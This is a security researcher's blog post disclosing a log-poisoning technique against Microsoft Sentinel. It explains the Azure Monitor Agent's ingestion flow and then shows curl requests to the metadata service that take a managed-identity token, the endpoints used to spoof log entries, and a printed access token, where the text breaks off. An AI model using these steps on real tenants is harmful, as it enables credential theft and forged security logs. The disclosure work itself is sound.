


I decided recently to dip my toe into security research in my spare time. This post is a writeup of some interesting goofiness that I found when playing around with Microsoft Sentinel Log Poisoning. I've not updated this blog in years, but hopefully this absolute monster of a post makes up for it.

I raised the findings with [Microsoft Security Response Center (MSRC)](https://msrc.microsoft.com/), who after doing very little for a month, closed the case (`91889`) as low severity, which means I can finally write about it.

In writing this post, i realised that there is quite a bit of assumed learning, so i've tried to provide a relatively high level introduction, before exploring the Log Poisioning findings.

Here is the video demonstration, if you want to learn more, grab a coffee and read on ☕


## What is Microsoft Sentinel?
Microsoft Sentinel is a Security Information and Event Management (SIEM) and a Security Orchestration, Automation and Response (SOAR) product all in one. It's not only capable of analysing all your logs, but you can also automate responses.

Microsoft Sentinel runs on Microsoft Azure, but its not just for Azure workloads. Microsoft tried to make this distinction clear in renaming the product from "Azure Sentinel" to "Microsoft Sentinel". You can integrate any kind of log into Microsoft Sentinel, from on-premise logs, to AWS workloads.

## How does Microsoft Sentinel work?
Behind the scenes, a cloud-scale database is provisoned named an [Azure Log Analytics workspace](https://learn.microsoft.com/en-us/azure/azure-monitor/logs/log-analytics-workspace-overview). All of your logs need to be ingested into this database (more on that later). From there, you can query the data using Microsoft own query language - [Kusto Query Language](https://learn.microsoft.com/en-us/kusto/query)(KQL).

KQL and Log Analytics workspaces are fast. They are designed for querying large volumes of data in next to no time at all.

I dont want to downplay Microsoft Sentinel, but its essentially just a wrapper around this database. It streamlines the process for querying data on a schedule, helps to create incidents (and the whole management process around that), maps to security frameworks such as MITRE, and allows for automated response with integration into Azure Logic Apps (Microsoft Sentinel playbooks).

## Microsoft Sentinel - Analytic Rules & Incidents
Very quickly, I need to explain some of the components of Microsoft Sentinel, to help you understand the impact of this piece of research. 

One of the core components of Microsoft Sentinel is an [analytics rule](https://learn.microsoft.com/en-us/azure/sentinel/scheduled-rules-overview). These rules run on a schedule and execute KQL queries against your dataset.


In the above screenshot, the analytic rule anmed "SSH - Potential Brute" force contains a pretty long KQL query, which will be ran periodically against the Log Analytics workspace.

Within Microsoft Sentinel, there is a Content Hub, which allows you to install a number of Microsoft Sentinel rules/queries into your deployment. For example the Security Threat Essentials solution is created and maintained by Microsoft, and includes 7 analytics rules.

There are tonnes more solutions in the content hub, allowing you to quickly install hundreds of queries and rapidly improve your coverage.

Outside the content hub, there is an the [official Microsoft Azure Sentinel repository](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Syslog/Analytic%20Rules/ssh_potentialBruteForce.yaml), which contains a bunch of great rules from across the community, and as well as brilliant resources such as [kqlsearch.com](https://www.kqlsearch.com/) which collates queries from a lots of sources.

Once you have your analytics rules in place, they will run the query on a defined schedule. Inside the rule logic, you define the logic around:
- what to do if your query returns a result
- if you have a result, map the data to entities
- how many matches trigger an alert
- how many alerts trigger an incident

Finally, when the analytics rule is automatically ran on the defined schedule, if it meets your criteria, it'll create an incident.


Incidents can then be assigned to invididuals for triage/remediation, escalation, context linked to other incidents and all kinds of fancy things.

## What is Log Posioning?
Log Poisoning is a cyberattack technique where an attacker manipulates or injects malicious data into logs collected by a SIEM system. The goal is to disrupt, deceive, or manipulate how the SIEM processes and presents log data. This can mislead security analysts, obscure malicious activity, or even facilitate further attacks by exploiting trust in the SIEM system.

This can be bad for :
- Evasion of detection (bypassing detection rules) - An analytics query may be looking for sequential events, or if an analyst is trying to trace logs sequentially. 
- Manipulation of Alerts/Incidents - Malicious log entries can trigger false alarms, overwhelming analysts with noise and distracting them from genuine threats (a tactic known as "alert fatigue").
- Disruption of forensic fnvestigations - Poisoned logs can corrupt the integrity of the evidence, making it difficult to investigate breaches or reconstruct the attacker's actions.
- Trust Degradation - SIEM systems are central to an organization’s security operations. If logs are compromised, it undermines trust in the system and the ability to make data-driven decisions.
- Non-repudiation - depending on the situation, its possible for a log poisoning attack to either deceive or maniuplate logs directly and cover up a malicious actors tracks.
- Obfuscating malicious activities
- Implicate another party in the commission of a malicious act
- Exhausting SOC Resources
- Manipulating Compliance Audits

Finally, it can be bad for your wallet...

Microsoft Sentinel is a cloud solution - there arent any servers to manage here. As with a lot of cloud products & services, the costs can mount up as you scale. For Log Analytics databases, a successful log poisioning attack could easily result in a [denial of wallet](https://portswigger.net/daily-swig/denial-of-wallet-attacks-how-to-protect-against-costly-exploits-targeting-serverless-setups) attack. Current upload costs for a single Log Analytics workspace depend on your pricing strategy, but if your on Pay-As-You-Go, its as much as $5.38 per GB.


Lets be clear, uploading 10,000 GB of logs, would cost you $53,800 a day if you are on a Pay-As-You-Go tier!

With the log poisioning attack i'm about to show you, you may not even know that your logs are increasing!

## Microsoft Sentinel Log Ingestion
Before we dive into how the *potential* log poisoning works, you'll need to understand how Microsoft Sentinel log ingestion works.

You dont ingest logs into Microsoft Sentinel, but rather the Log Analytics workspace (database) behind it. Microsoft Sentinel is "just" a wrapper around the database. So the question become, how do you ingest logs into a Log Analytics workspace?

Azure Monitor is the service

This post is chiefly concerned with logs for compute, which requires three things:

### Azure Monitor Agent (AMA)
The [Azure Monitor Agent](https://learn.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview) (AMA) software, collects monitoring data from an Virtual Machine, and sends the logs  to the Azure Monitor service.

The AzureMonitorLinuxAgent is open source and is available [here](https://github.com/Azure/azure-linux-extensions/tree/master/AzureMonitorAgent).

However, the AzureMonitorWindowsAgent isnt on github, but once deployed on a Windows machine, it can easily be found in the `C:\Packages\Plugins\Microsoft.Azure.Monitor.AzureMonitorWindowsAgent\1.10.0.0` directory.


The `AzureMonitorAgentExtension.exe` is written in `.NET`, so you can easily peak the internals through tools like [dnSpy](https://github.com/dnSpy/dnSpy).

If you are collecting data for Syslog or Windows events via the Azure Monitor agent (which is very common), [you will need a Data Collection Endpoint](https://learn.microsoft.com/en-us/azure/azure-monitor/essentials/data-collection-endpoint-overview?tabs=portal#azure-monitor-agent-ama) 

More on Data Collection Endpoints in shortly.

There are a few different ways to [install the AMA](https://learn.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-manage?tabs=azure-portal#installation-options) onto your machines:
1. VM Extension - not recommended, as additional configuration is required before it works
2. Create Data Collection Rule (DCR) - when a machine is associated with a DCR, the agent will automatically be installed on that machine.
3. Azure Policy, there are a handful of different policies which can automate the installation and configuration of AMA across your infrastructure.

4. Microsoft Sentinel Data Connector, the data connector is essentially a 

You can find the source most [Data Connectors on the official github](https://github.com/Azure/Azure-Sentinel/tree/master/DataConnectors). They are essentially 
Data connectors typically either deploy Azure Policy, or create the DCR manually.

Alongside whatever you have configured, Azure Monitor Agent will also send periodic `Heatbeat` information to Azure. This acts as a keepalive and tells Microsoft Sentinel that the Virtual Machine is behaving as expected and can recieve logs. This is particularly useful when trying to debug any log ingestion issues or delays.
The `Heartbeat` table is used through Microsoft Sentinel to incidate whether your machines are available. Only the AMA can write to the Heartbeat table (or so you'd think ;))

In the Azure-Sentinel github repo, its referenced at least a 1000 times:
```
$ grep -ri "Heartbeat" --include "*yaml" --include "*json" | wc -l
1177
```

### Data Collection Endpoint (DCE)
An [Azure Monitor Data Collection Endpoint](https://learn.microsoft.com/en-us/azure/azure-monitor/essentials/data-collection-endpoint-overview?tabs=portal) defines an endpoint, for which your data collection rule can target. Although typically used for custom tables, you need a DCE for Syslog and WindowsEvent log ingestion.

A DCE endpoint dosent have much too it. Here is the JSON view of a DCE endpoint name `my-dce`.

```
{
    "properties": {
        "description": "a data collection endpoint",
        "immutableId": "dce-a4aea7fb8c4b4053a10d07c2e0f7a5c2",
        "configurationAccess": {
            "endpoint": "https://my-dce-7xo3.uksouth-1.handler.control.monitor.azure.com"
        },
        "logsIngestion": {
            "endpoint": "https://my-dce-7xo3.uksouth-1.ingest.monitor.azure.com"
        },
        "metricsIngestion": {
            "endpoint": "https://my-dce-7xo3.uksouth-1.metrics.ingest.monitor.azure.com"
        },
        "networkAcls": {
            "publicNetworkAccess": "Enabled"
        },
        "provisioningState": "Succeeded"
    },
    "location": "uksouth",
    "tags": {},
    "id": "/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourceGroups/msft-sentinel/providers/Microsoft.Insights/dataCollectionEndpoints/my-dce",
    "name": "my-dce",
    "type": "Microsoft.Insights/dataCollectionEndpoints"
}
```

The Data Collection Endpoint is used to send data to Azure Monitor, and also to send configuration files to the Azure Monitor Agent running on your machine.

https://learn.microsoft.com/en-us/azure/azure-monitor/essentials/data-collection-endpoint-overview?tabs=portal#how-to-set-up-data-collection-endpoints-based-on-your-deployment


### Data Collection Rules (DCR)
[Azure Montor Data Collection Rules](https://learn.microsoft.com/en-us/azure/azure-monitor/essentials/data-collection-rule-overview) are the core component to data ingestion into your workspace.

They essentially define the incoming data stream definition, perform any data transformations as required, and forward onto a table in the Log Analytics workspace (via the DCE).

A DCR must send to an endpoint; which is either typically a the Log Analytics workspace or the Data Collection Endpoint.

Here is an example of a DCR which collects `Sylog` type data from a Linux Virtual machine, and forwards onto my Log Analytics workspace
```
{
    "properties": {
        "description": "",
        "immutableId": "dcr-62eeb31f81e64b8daf1393140d61069e",
        "dataSources": {
            "syslog": [
                {
                    "streams": [
                        "Microsoft-Syslog"
                    ],
                    "facilityNames": [
                        "auth",
                        "authpriv",
                        "cron",
                        "daemon",
                        "kern",
                        "lpr",
                        "mail",
                        "mark",
                        "news",
                        "syslog",
                        "user",
                        "uucp",
                        "local0",
                        "local1",
                        "local2",
                        "local3",
                        "local4",
                        "local5",
                        "local6",
                        "local7"
                    ],
                    "logLevels": [
                        "Debug",
                        "Info",
                        "Notice",
                        "Warning",
                        "Error",
                        "Critical",
                        "Alert",
                        "Emergency"
                    ],
                    "name": "syslog-live-logs"
                }
            ]
        },
        "destinations": {
            "logAnalytics": [
                {
                    "workspaceResourceId": "/subscriptions/xxxxxxxxxxxxxxxxxxxxx/resourceGroups/msft-sentinel/providers/Microsoft.OperationalInsights/workspaces/sentinel",
                    "workspaceId": "1827c797-4a4a-4a68-b6f3-xxxxxxxx",
                    "name": "syslog-live-logs"
                }
            ]
        },
        "dataFlows": [
            {
                "streams": [
                    "Microsoft-Syslog"
                ],
                "destinations": [
                    "syslog-live-logs"
                ]
            }
        ],
        "provisioningState": "Succeeded"
    },
    "location": "uksouth",
    "tags": {},
    "kind": "Linux",
    "id": "/subscriptions/xxxxxxxxxxxxxxxxxx/resourceGroups/research/providers/Microsoft.Insights/dataCollectionRules/SyslogLive",
    "name": "SyslogLive",
    "type": "Microsoft.Insights/dataCollectionRules"
}
```

The Windows equivelant is much simplier:
```
{
    "properties": {
        "description": "",
        "immutableId": "dcr-1316a9fba5154d658ba5a7ea1c3d2eef",
        "dataSources": {
            "windowsEventLogs": [
                {
                    "streams": [
                        "Microsoft-Event"
                    ],
                    "xPathQueries": [
                        "Application!*[System[(Level=1 or Level=2 or Level=3 or Level=4 or Level=0 or Level=5)]]",
                        "Security!*[System[(band(Keywords,13510798882111488))]]",
                        "System!*[System[(Level=1 or Level=2 or Level=3 or Level=4 or Level=0 or Level=5)]]"
                    ],
                    "name": "eventLogsDataSource"
                }
            ]
        },
        "destinations": {
            "logAnalytics": [
                {
                    "workspaceResourceId": "/subscriptions/xxxxxxxxxxxxxxxxxx/resourceGroups/msft-sentinel/providers/Microsoft.OperationalInsights/workspaces/sentinel",
                    "workspaceId": "1827c797-4a4a-4a68-b6f3-fb3e3cefd50a",
                    "name": "windows-live-logs"
                }
            ]
        },
        "dataFlows": [
            {
                "streams": [
                    "Microsoft-Event"
                ],
                "destinations": [
                    "windows-live-logs"
                ]
            }
        ],
        "provisioningState": "Succeeded"
    },
    "location": "uksouth",
    "tags": {},
    "id": "/subscriptions/xxxxxxxxxxxxxxxxxx/resourceGroups/research/providers/Microsoft.Insights/dataCollectionRules/WindowsLiveLogs",
    "name": "WindowsLiveLogs",
    "type": "Microsoft.Insights/dataCollectionRules"
}
```
These Data Collection Rules are configured to point to my DCE


This builds a relationship between the 

You make have noticed that the DCRs reference an `immutableId` field, which is the DCE.

Here, you can see that the Azure Monitor Agent is populated with both the DCR and the DCE


Essentially, the architecture looks something like this:
https://learn.microsoft.com/en-us/azure/sentinel/data-transformation#data-ingestion-flow-in-microsoft-sentinel

## Tables and Custom Tables
Before we get started on Log Poisoning in Microsoft Sentinel, you need to understand that there is a distinction between in-built tables and custom tables.

In Microsoft Sentinel, there are a number of [Azure data sources](https://learn.microsoft.com/en-us/azure/sentinel/data-source-schema-reference#azure-data-sources). For example, Microsoft Entra can write to the `SigninEvents` table, Linux hosts can write to the Network Security Group (NSG) flow logs write to the `AzureNetworkAnalytics` table.

You can actually [upload your own logs to a handful of in-built tables](https://learn.microsoft.com/en-us/azure/sentinel/data-transformation#data-transformation-support-for-custom-data-connectors), such as `Syslog` and `WindowsEvent`. 

Popular third party tools, such as Palo Alto Networks Firewalls, or Fortigate firewalls [can write to the `CommonSecurityLog` table](https://learn.microsoft.com/en-us/azure/sentinel/data-source-schema-reference#3rd-party-vendor-data-sources).

However, other third party tools, such as [Crowdstrike, have to write to a Custom tables](https://learn.microsoft.com/en-us/azure/sentinel/data-connectors/crowdstrike-falcon-data-replicator#connector-attributes). In Microsoft Sentinel, custom tables have to be named with the `_CL` suffix. For example, Crowdstrike writes to the `CrowdstrikeReplicatorLogs_CL`.

The **tables names and schemas are very significant**.

Kusto Query Language is arguably the most important component of Microsoft Sentinel. As mentioned, Analytic Rules run on a schedule and query your data via KQL.

For example, lets take the [example SSH Brute force KQL query](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Syslog/Analytic%20Rules/ssh_potentialBruteForce.yaml).
```
Syslog
  | where ProcessName =~ "sshd"
  | where SyslogMessage contains "Failed password for invalid user"
  | parse kind=relaxed SyslogMessage with * "invalid user " user " from " ip " port" port " ssh2" *
  // using distinct below as it has been seen that Syslog can duplicate entries depending on implementation
  | distinct TimeGenerated, Computer, user, ip, port, SyslogMessage, _ResourceId
  | summarize EventTimes = make_list(TimeGenerated), PerHourCount = count() by bin(TimeGenerated,4h), ip, Computer, user, _ResourceId
  | where PerHourCount > threshold
  | mvexpand EventTimes
  | extend EventTimes = tostring(EventTimes)
  | summarize StartTime = min(EventTimes), EndTime = max(EventTimes), UserList = make_set(user), ComputerList = make_set(Computer), ResourceIdList = make_set(_ResourceId), sum(PerHourCount) by IPAddress = ip
  // bringing through single computer and user if array only has 1, otherwise, referencing the column and hashing the ComputerList or UserList so we don't get accidental entity matches when reviewing alerts
  | extend HostName = iff(array_length(ComputerList) == 1, tostring(ComputerList[0]), strcat("SeeComputerListField","_", tostring(hash(tostring(ComputerList)))))
  | extend Account = iff(array_length(ComputerList) == 1, tostring(UserList[0]), strcat("SeeUserListField","_", tostring(hash(tostring(UserList)))))
  | extend ResourceId = iff(array_length(ResourceIdList) == 1, tostring(ResourceIdList[0]), strcat("SeeResourceIdListField","_", tostring(hash(tostring(ResourceIdList)))))
```

The first line in the KQL query, defines which table to query. After that, numerous table colums are references, such as `ProcessName`, `SyslogMessage`. These fields must be present in the table schema.

# Event vs WindowsEvent table schemas
For Windows machines, there are two confusing table schemas for storing events.
https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/event#columns


## Log Posioning in Microsoft Sentinel
Ok, so now we are in a position to explore what I wanted to talk about... Log Poisoning in Microsoft Sentinel.


1. Get access token via metadata
___ no longer need to be on VM
2. Find/figure out ingestion token endpoint URL
3. Upload...


## Azure Instance Metadata Service (IDMS)
The [Azure Instance Metadata Service](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service?tabs=windows) is a REST API that allows you to view and manage your virtual machine configuration from within the machine.
It's available at a well-known, non-routable IP address (169.254.169.254), which can only be accessed from within the VM. Communication between the VM and IMDS never leaves the host.

The [documentation explicitly states](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service?tabs=windows#security-and-authentication):
> IMDS is not a channel for sensitive data. The API is unauthenticated and open to all processes on the VM. Information exposed through this service should be considered as shared information to all applications running inside the VM.

There are [6 endpoint categories](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service?tabs=windows#endpoint-categories) available for IMDMS:
- `/metadata/attested` - IMDS helps to provide guarantees that the data provided is coming from Azure. Microsoft signs part of this information, so you can confirm that an image in Azure Marketplace is the one you're running on Azure.
- `/metadata/identity` - A managed identity, assigned by the system, can be enabled on the VM. You can also assign one or more user-assigned managed identities to the VM. You can then request tokens for managed identities from IMDS. Use these tokens to authenticate with other Azure services, such as Azure Key Vault.
- `/metadata/instance` - Exposes the important metadata for the VM instance, including compute, network, and storage.
- `/metadata/loadbalancer`
- `/metadata/scheduledevents`
- `/metadata/versions`- Returns the set of supported API versions.

The most interesting endpoint category here, is the `identity` endpoint. When a managed identity has been assinged to the Virtual Machine, you gain access to this endpoint. This allows you to assign permissions to the managed identity, which effectively acts as a service account, allowing you to provide Azure permissions to the virtual machine.

To be clear - just adding a managed identity to a Virtual Machine enables this endpoint. You can then optionally give the identity permissions to do things.

## Azure Monitor Agent Authentication
The Azure Monitor agent [**requires** a managed identity to be assigned to your Virtual Machine](https://learn.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-requirements#permissions).


The managed identity dosent need any permissions. It jsut needs to be addeded to the VM so that the IDMS is accessible (particularly the `/metadata/identity` IDMS endpoint) for the [AMA to function](https://github.com/Azure/azure-linux-extensions/blob/master/AzureMonitorAgent/agent.py#L1923).

# AMA Log Ingestion
Unless configured for private access, the AMA will require a route to the internet (DCE) to upload logs to the log analytics workspace.

You can force the AMA to go via a HTTP proxy, which is useful for enterprise environments which might not have direct outbound internet access.

You dont even need direct internet access to the virtual machine, if you have the required permissiosn, you can configure the VM extension via the CLI:
```
az vm extension set --name AzureMonitorWindowsAgent --publisher Microsoft.Azure.Monitor --vm-name windows-server --resource-group research --settings '{"proxy":{"mode":"application","address":"http://localhost:8080","auth": "false"}}'
```
This will force the Azure Monitor Agent to use the `http://localhost:8080` proxy.

I used burp for my proxy, and added the CA certificate to the virtual machine, to inspect outbound traffic to see what the AMA was up too.
If using burp, you'll need to unpack compressed requests/responses, as the AMA sends all requests in zlib format.


The first request for the AMA is to the following URL:
`https://global.handler.control.monitor.azure.com/locations/uksouth/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourceGroups/research/providers/Microsoft.Compute/virtualMachines/windows-server/agentConfigurations?platform=windows&includeMeConfig=true&api-version=2022-06-02`

which returns a response, basically saying, you need to go to the DCE for this resource.

> "Agent configuration needs to be acquired from 'https://my-dce-l8r4.uksouth-1.handler.control.monitor.azure.com' endpoint which was configured for this resource."

What follows, is requests to the DCE `https://my-dce-l8r4.uksouth-1.handler.control.monitor.azure.com/locations/uksouth/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourceGroups/research/providers/Microsoft.Compute/virtualMachines/windows-server/agentConfigurations?platform=windows&includeMeConfig=true&api-version=2022-06-02` , which returns the agent configuration, which is essentially the DCR configuration.
```
{
  "configurations": [
    {
      "configurationId": "dcr-03afb10bb4f14cd38dd79599ae76f6f2",
      "eTag": "dcr-03afb10bb4f14cd38dd79599ae76f6f2/%22bf0053cc-0000-1100-0000-66f02f220000%22/%22bf00f9cb-0000-1100-0000-66f02f0b0000%22/%22bf007bcd-0000-1100-0000-66f02f5d0000%22",
      "op": "added",
      "content": {
        "dataSources": [
          {
            "configuration": {
              "scheduledTransferPeriod": "PT1M",
              "xPathQueries": [
                "Application!*[System[(Level=1 or Level=2 or Level=3 or Level=4 or Level=0 or Level=5)]]",
                "Security!*[System[(band(Keywords,13510798882111488))]]",
                "System!*[System[(Level=1 or Level=2 or Level=3 or Level=4 or Level=0 or Level=5)]]"
              ]
            },
            "id": "eventLogsDataSource",
            "kind": "winEventLog",
            "streams": [
              {
                "stream": "GENERIC_EVENT_BLOB",
                "solution": "LogManagement"
              }
            ],
            "sendToChannels": [
              "ods-b3cdb8b1-05e3-415b-a624-5eac3d251889"
            ]
          }
        ],
        "channels": [
          {
            "endpoint": "https://b3cdb8b1-05e3-415b-a624-5eac3d251889.ods.opinsights.azure.com",
            "tokenEndpointUri": "https://my-dce-l8r4.uksouth-1.handler.control.monitor.azure.com/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourceGroups/research/providers/Microsoft.Compute/virtualMachines/windows-server/agentConfigurations/dcr-03afb10bb4f14cd38dd79599ae76f6f2/channels/ods-b3cdb8b1-05e3-415b-a624-5eac3d251889/issueIngestionToken?operatingLocation=uksouth&platform=windows&includeMeConfig=true&api-version=2022-06-02",
            "id": "ods-b3cdb8b1-05e3-415b-a624-5eac3d251889",
            "protocol": "ods"
          }
        ]
      }
    }
  ]
}
```

The interesting response there is the `tokenEndpointUri`, particularly the `issueIngestionToken` endpoint.
What follows is a request to that endpoint, which an **ingestionToken** returned.
The ingestion token is a JWT, which can be decoded with `jwt.io`.

```
{
  "aud": "https://monitor.azure.com/",
  "iss": "https://sts.windows.net/1559ef53-2b0e-4395-b2ef-36f1288f40da/",
  "iat": 1727016607,
  "nbf": 1727016607,
  "exp": 1727103307,
  "aio": "E2dgYJibWt1YLns2t+Yap+dsFd12AA==",
  "appid": "b485b1f5-5a3a-47c1-933c-18abd9565d58",
  "appidacr": "2",
  "idp": "https://sts.windows.net/1559ef53-2b0e-4395-b2ef-36f1288f40da/",
  "idtyp": "app",
  "oid": "cca4c1a5-87e6-43ac-bd3d-15a7924bef4b",
  "rh": "0.AXoAU-9ZFQ4rlUOy7zbxKI9A2ge9M-nu0h1Pkzw3UrgZVnvmAAA.",
  "sub": "cca4c1a5-87e6-43ac-bd3d-15a7924bef4b",
  "tid": "1559ef53-2b0e-4395-b2ef-36f1288f40da",
  "uti": "BJNsC75MCUS_UY2T6T0tAA",
  "ver": "1.0",
  "xms_idrel": "7 18",
  "xms_mirid": "/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourcegroups/research/providers/Microsoft.Compute/virtualMachines/windows-server"
}
```
The interesting parameters here are the `exp` and the `xms_mirid` fields.
The ingestion token is valid for 1 hour after being requested.


Once you have an ingestion token, the actual data upload begins.

The Azure Monitor Agent will upload logs for whatever its configured and allow to do, typically Syslog for Linux, WindowsEvent for Windows and the always the HeartBeat table.

By inspecting burp across both Windows and Linux virtual machines, we can determine the endpoint URLs and the payload syntax. The results look like this:

All requests go to the following domain: `https://{workspace_id}.ods.opinsights.azure.com/`, where `workspace_id` is your workspace ID.

| Table | OS | Endpoint |
|-------|----|----------|
| Event | Windows | /GenericEventDataService.svc/PostDataItems |
| Heartbeat | Windows | /OperationalData.svc/PostDataItems |
| Heartbeat | Linux | /OperationalData.svc/PostJsonDataItems?api-version=2016-04-01 |
| Syslog | Linux | /OperationalData.svc/PostJsonDataItems?api-version=2016-04-01 |

Payloads from Windows are in `XML` format, whereas requests from Linux are in `JSON`. Notice the distinction in the `Heartbeat` endpoints for Windows/Linux. One is `PostDataItems` and the other is `PostJsonDataItems`.

# Spoofing data
## Setup
Only a Linux machine can spoof linux logs, and a windows machine can only spoof windows logs. However, you can spoof anything to the Heartbeat table. So a from a windows machine you could spoof heartbeats for a linux machine.

Ok so lets tidy this up, and apply the learning to actually spoof data.

For this to work, you (conveniently) need the following:
1. A Windows or Linux machine, with a managed identity, integrated into Microsoft Sentinel
2. Ability to create a single request to the metadata service. Now this isnt as niche as it seems - you dont even need direct access to the VM OS. If you can run `az vm run-command invoke`, then you can `curl` the metadata service.


Or, if you dont have the Azure permissions, but you *do* have *any* local user credentials, you can connect via the Azure serial console.
On Windows;
1. Create a `CMD` channel: `cmd`
2. list channels: `ch -l`
3. switch to the newly created channel: `ch -si 1`
4. Login (leave domain blank)

5. Send curl `curl -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://monitor.azure.com"`


## Lets Begin
To start this off, you need to acquire an access token for the managed identity of the Windows or Linux Virtual Machine thats integrated with Microsoft Sentinel. As with most cloud security vulnerabilities, this initial access phase is glossed over. Examples could include misconfiguration, credential leak or a RCE vulnerability.
Remember, the virtual machine managed identity dosent actually need any permissions for the AMA to send logs to Microsoft Sentinel.

All you need to do, is request an OAuth access token with the `https://monitor.azure.com` scope. Thats as simple as running this request:
```
curl -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://monitor.azure.com"`
```

Your response will look like this:
```
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6Inp4ZWcyV09OcFRrd041R21lWWN1VGR0QzZKMCIsImtpZCI6Inp4ZWcyV09OcFRrd041R21lWWN1VGR0QzZKMCJ9.eyJhdWQiOiJodHRwczovL21vbml0b3IuYXp1cmUuY29tIiwiaXNzIjoiaHR0cHM6Ly9zdHMud2luZG93cy5uZXQvMTU1OWVmNTMtMmIwZS00Mzk1LWIyZWYtMzZmMTI4OGY0MGRhLyIsImlhdCI6MTczMjYxMjA4NSwibmJmIjoxNzMyNjEyMDg1LCJleHAiOjE3MzI2OTg3ODUsImFpbyI6ImsyQmdZS2p2N2RtejVGeVNUSXVOdnNOMGdjM2ZBUT09IiwiYXBwaWQiOiI5NjRmZmNjMy1jOWE0LTRhOTktOGZjNy0zNDc5MzM4MDMxMzciLCJhcHBpZGFjciI6IjIiLCJpZHAiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC8xNTU5ZWY1My0yYjBlLTQzOTUtYjJlZi0zNmYxMjg4ZjQwZGEvIiwiaWR0eXAiOiJhcHAiLCJvaWQiOiI2YzFlNjhjNC1kMzZjLTRmZmMtYTUxYi0wYjZhNmJjNDFkZWQiLCJyaCI6IjEuQVhvQVUtOVpGUTRybFVPeTd6YnhLSTlBMmdlOU0tbnUwaDFQa3p3M1VyZ1pWbnZtQUFCNkFBLiIsInN1YiI6IjZjMWU2OGM0LWQzNmMtNGZmYy1hNTFiLTBiNmE2YmM0MWRlZCIsInRpZCI6IjE1NTllZjUzLTJiMGUtNDM5NS1iMmVmLTM2ZjEyODhmNDBkYSIsInV0aSI6IklIWnY1MXFYTmt1eDRxSFdhTUZKQUEiLCJ2ZXIiOiIxLjAiLCJ4bXNfaWRyZWwiOiI3IDEwIiwieG1zX21pcmlkIjoiL3N1YnNjcmlwdGlvbnMvZmRjMjQxNDEtOTAwOC00NWQxLWE3NDktZmE5OTBkNDJhMDE1L3Jlc291cmNlZ3JvdXBzL3Jlc2VhcmNoL3Byb3ZpZGVycy9NaWNyb3NvZnQuQ29tcHV0ZS92aXJ0dWFsTWFjaGluZXMvd2luZG93cyJ9.Alr_RnPcHz5yFYWw1jrnsVLsJGt2jtYEN-xzdTZpZR6a3GKf547tDQgAJVnvw33ikyI076dLytI_BnOJWsxipunK6cOzDNtocKLaRyYIJ3qFie5A_Lxlx5UJbIBD86o3xiy2xmUC7R2RvSX4hiy09Q5OEp9d6HT2Mmlar4NkIOivhY-IMueF2TZ0QPiObfG4i9VtG1qtm2mZljoxwPQQUAJMAnwceabGZqbsSfnvXW7fiRF-RrMBK6Xop3rVTd-sZhw8bm242Sf0TZS4vlUfN2FAXRWTdJe3xuJotFJS8fWWgfA6EPU_NkKypklQiOOyGTdx_uHFh